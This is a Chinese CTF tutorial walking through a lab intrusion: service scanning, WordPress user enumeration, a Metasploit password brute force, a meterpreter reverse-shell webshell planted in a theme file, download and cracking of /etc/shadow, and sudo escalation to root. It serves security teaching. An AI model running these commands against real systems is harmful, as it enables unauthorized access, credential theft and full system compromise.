# CTF入门课程：P19：WEB安全暴力破解 💻

在本节课中，我们将学习WEB安全中的暴力破解技术。我们将通过对目标WEB应用程序的用户名和密码进行暴力枚举，最终获得正确的凭据。利用这些凭据登录系统后，我们将获取一个初始的shell，并逐步提升权限至root，最终取得目标flag值。

## 暴力破解概述

暴力破解的基本思想可以概括为**枚举法**。

枚举法的基本思想是：根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解。若全部情况验证后都不符合题目的全部条件，则本题无解。

在WEB安全中进行暴力破解时，我们尝试所有可能性以获取正确结果。如果未能获取结果，则可以扩大破解范围，直到取得所需的具体值。

## 实验环境搭建 🛠️

上一节我们介绍了暴力破解的基本概念，本节中我们来看看具体的实验环境。

以下是本次实验的环境配置：
*   **攻击机**：Kali Linux， IP地址为 `192.168.253.12`。
*   **靶机**：Ubuntu Linux， IP地址为 `192.168.253.20`。

我们的目标是获取靶机上的flag值，并在过程中取得靶机的root权限。

## 靶机信息探测 🔍

我们目前仅知道靶机的IP地址，需要探测其开放的服务及版本信息。

我们将使用Nmap工具进行扫描。首先，使用以下命令进行基础服务与版本探测：

```bash
nmap -sV 192.168.253.20
```

此命令将扫描靶机并返回开放的服务及其版本信息。

为了获取更全面的信息，我们可以使用Nmap的“全扫描”模式：

```bash
nmap -T4 -A -v 192.168.253.20
```

以下是命令参数说明：
*   `-T4`：使用最大线程数，以最快速度扫描。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出，包括发送和接收的数据包。

扫描结果显示靶机开放了80端口，运行着HTTP服务。



## WEB服务敏感信息探测



探测到HTTP服务后，我们需要进一步挖掘其敏感信息。

我们可以使用Nikto工具对WEB服务进行漏洞扫描和敏感目录探测：

```bash
nikto -host http://192.168.253.20
```

如果端口不是80（例如8080），则需要在命令中指定端口号：`http://192.168.253.20:8080`。

Nikto的扫描结果中，我们发现了一个名为 `/secret/` 的敏感目录。通过浏览器访问该目录，我们发现这是一个隐藏的WordPress站点。

## WordPress站点访问与配置

在访问WordPress登录页面时，可能会遇到站点域名解析问题。



解决方法是在攻击机的 `/etc/hosts` 文件中添加一条记录，将靶机IP地址与扫描到的域名进行绑定：



```bash
# 编辑hosts文件
sudo gedit /etc/hosts
# 添加以下行
192.168.253.20  sportquest.com
```

保存后，即可通过域名正常访问该WordPress站点。

## WordPress用户名枚举与暴力破解

为了进行暴力破解，我们首先需要枚举出有效的用户名。

我们使用 `wpscan` 工具来枚举WordPress站点的用户：

```bash
wpscan --url http://sportquest.com/secret/ --enumerate u
```

扫描结果显示存在一个用户名为 `admin`。

接下来，我们使用Metasploit框架对 `admin` 用户的密码进行暴力破解。

1.  启动Metasploit：`msfconsole`
2.  使用WordPress登录暴力破解模块：
    ```bash
    use auxiliary/scanner/http/wordpress_login_enum
    ```
3.  设置模块参数：
    ```bash
    set RHOSTS 192.168.253.20
    set USERNAME admin
    set PASS_FILE /usr/share/wordlists/dirb/common.txt
    set TARGETURI /secret/
    ```
4.  运行模块：`run`

破解成功后，我们得到了用户名 `admin` 和密码 `admin`。

## 获取WebShell并反弹Shell

使用获得的凭据登录WordPress后台后，我们需要上传一个WebShell以获取系统访问权限。

首先，使用 `msfvenom` 生成一个PHP反向连接WebShell：

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```

将生成的PHP代码复制，在WordPress后台编辑 `404.php` 模板文件（路径通常为 `外观` -> `主题编辑器` -> `404模板`），将代码粘贴并保存。

接着，在Metasploit中设置监听：

```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
run
```





最后，在浏览器中访问这个WebShell的URL（例如 `http://sportquest.com/secret/wp-content/themes/twentyseventeen/404.php`）。监听端成功接收到一个Meterpreter会话。



## 权限提升至Root







在获得的Meterpreter会话中，我们当前用户是 `www-data`，权限较低。

我们需要进行提权。首先，下载靶机的 `/etc/passwd` 和 `/etc/shadow` 文件到攻击机：

```bash
# 在meterpreter会话中执行
download /etc/passwd
download /etc/shadow
```



然后，使用 `unshadow` 工具合并这两个文件，生成John the Ripper可识别的破解文件：



```bash
unshadow passwd shadow > crack.db
```

接着，使用John the Ripper破解哈希：





```bash
john crack.db
```



破解成功后，我们获得了一个用户 `marianne` 及其密码 `marianne`。

回到Meterpreter会话，尝试切换到该用户并提权：



```bash
# 生成一个交互式shell
shell
python -c 'import pty; pty.spawn("/bin/bash")'
# 切换用户
su - marianne
# 输入密码: marianne
# 尝试提权到root
sudo -l
# 如果marianne有sudo权限，尝试获取root shell
sudo /bin/bash
```



成功提权至root。



## 获取Flag并总结 🏁



提权成功后，最后一步是寻找并读取flag文件。通常flag位于根目录下：



```bash
cd /root
ls
cat flag
```

至此，我们成功完成了从信息收集、暴力破解、获取WebShell到系统提权并最终获取flag的完整渗透测试流程。



本节课中我们一起学习了WEB暴力破解的完整流程。核心步骤包括：使用Nmap和Nikto进行信息收集；利用WPScan枚举用户；通过Metasploit进行密码暴力破解；上传WebShell获取初始访问权限；最后通过破解本地用户哈希进行权限提升。整个过程体现了枚举思想在渗透测试中的具体应用。